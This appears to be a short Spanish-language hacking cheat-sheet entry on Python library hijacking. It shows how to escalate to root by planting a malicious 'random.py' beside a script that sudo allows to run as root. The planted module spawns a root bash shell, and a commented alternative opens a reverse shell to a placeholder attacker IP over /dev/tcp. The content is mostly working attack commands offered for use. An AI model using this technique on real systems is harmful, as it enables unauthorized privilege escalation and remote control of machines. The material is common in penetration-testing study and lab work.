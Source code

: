 Python Library Hijacking

```bash
# Si encontramos un script de python importanto modulos

user> sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py

user> cat example.py  
example.py:
#!/usr/bin/bash
import random
print(random.randint(1, 8))

# Podemos crear un script malicioso en python con el mismo nombre que el modulo que 
# importa, de esta manera , se ejecutara antes que el resto y con permisos de root
# En este caso importa el modulo: random

user> touch /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system("/bin/bash")
#Para una rever : 
# os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
  
user> sudo  /usr/bin/python3 /opt/scripts/example.py
   
 
```
